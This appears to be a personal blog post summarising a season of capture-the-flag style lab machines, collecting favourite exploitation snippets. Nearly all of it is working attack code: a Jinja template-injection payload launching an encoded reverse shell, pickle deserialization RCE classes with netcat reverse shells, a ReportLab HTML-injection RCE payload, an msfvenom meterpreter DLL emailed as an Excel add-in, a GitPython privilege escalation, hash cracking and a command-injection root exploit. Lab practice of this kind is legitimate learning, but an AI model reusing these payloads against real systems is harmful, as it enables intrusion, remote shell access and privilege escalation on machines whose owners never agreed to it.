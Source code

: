 ```yaml
---
layout: post
title: "Season 5 Summary"
date: 2024-07-21
---
```



Overall I learned a lot and these are some of my favorite snippets that i definitely will be keeping. SPOILERS REMOVED don't worry.

## SSTI With Jinja

Context: Obtaining Foothold using Server Side Template Injection with Jinja

I can see that I can by pass with this
```
invoice_id=&form_type=scannable_invoice&qr_link=https%3A%2F%2Fbruhaps.htb%2Fstatic%2Fqr_code%2Fqr_code_5868828307.png" {{'><script>;</script>'|safe}}
```

### Final SSTI Payload
```
invoice_id=&form_type=scannable_invoice&qr_link={% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4xMC4xNC43LzQ0NDQ7IC9iaW4vc2ggPCYxOTYgPiYxOTYgMj4mMTk2 | base64 -d | bash")["read"]() %} a {% endwith %}
```

On attack machine
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.11.12] 46716

ls
app.py
static
templates
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cheeese:/opt/app$ ls
```


---
## Pickle RCE

Context: This was a machine learning server, and I was a low privilege user related to the ML training.

https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/

```
import pickle import base64 import os class RCE: def __reduce__(self): cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f') return os.system, (cmd,) if __name__ == '__main__': pickled = pickle.dumps(RCE()) print(base64.b64encode(pickled)) # or print(base64.urlsafe_b64encode(pickled))
```

### Final Python RCE

```python
from clearml import Task
import pickle,os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.16 4444 >/tmp/f',))


command = RunCommand()


task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"], output_uri=True)

task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")


with open('pickle_artifact.pkl','wb') as f:
    pickle.dump(command,f)

```

---
## RCE Via Html Injection

Context: Obtain Foothold using Htmli

https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md

Start Listener

```
nc -lvnp 4444
```

Payload used for rev shell

```html
ASSS<font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlBASE64PAYLOADAKQA=') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font>
```

---
## Sending a malicious XLL via email

Context: Obtaining Foothold by sending an email allowing excel files. 

https://github.com/edparcell/HelloWorldXll

Generate payload with msfvenom
```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.68 LPORT=4444 -f dll -o ex.dll


cp ex.dll ex.xll
```


Send the malicious `.xll`
```bash
swaks --to accounts@BRUH.htb --from assinine@BRUH.htb --server MAINFRAME.BRUH.htb --port 25 --header "Subject: test" --body "test" --attach @ex.xll
```


```cmd
C:\>whoami
whoami
AHHHHH YOU THOUGHT
```

---

## Priv Esc with GitPython

Context: User Foothold obtaining root.

Prod Perms

```
User prod may run the following commands on BRUH:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Contents of `clone_prod_change.py`

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

https://github.com/gitpython-developers/GitPython/issues/1515
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858


```
'ext::sh -c chmod% 4777% /bin/bash'
```


## Root

```
prod@linux:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
bash-5.1# cat /root/root.txt
SECRET
bash-5.1# 
```

---

## Root with Ansible

Context: I had perms for Ansible runner.
### Find Ansible Hash
```C
// Version : 1 #include <stdio.h> #include <stdlib.h> #include <string.h> #include <dirent.h> #include <openssl/md5.h> #define INVENTORY_FILE "/opt/playbooks/inventory.ini" #define PLAYBOOK_LOCATION "/opt/playbooks/" #define ANSIBLE_PLAYBOOK_BIN "/usr/bin/ansible-playbook" #define ANSIBLE_GALAXY_BIN "/usr/bin/ansible-galaxy" #define AUTH_KEY_HASH "0feda17076d793c2ef2870d7427ad4ed" int check_auth(const char* auth_key) { unsigned char digest[MD5_DIGEST_LENGTH]; MD5((const unsigned char*)auth_key, strlen(auth_key), digest); char md5_str[33]; for (int i = 0; i < 16; i++) { sprintf(&md5_str[i*2], "%02x", (unsigned int)digest[i]); }
```

### Crack the Ansible hash
```
hashcat -a3 -m0 myhash.txt UH4565jkl?u?u?u?u --self-test-disable
```

```
HASH:RESult
```

### Root Access

Create json file and insert command injection.

```json
{
 "run": {
    "action": "install",
    "role_file": "archive.tar;bash"},
 "auth_code": "CRACKEDRESULT"
}
```


```
sudo /opt/runner/runner rce.json
```


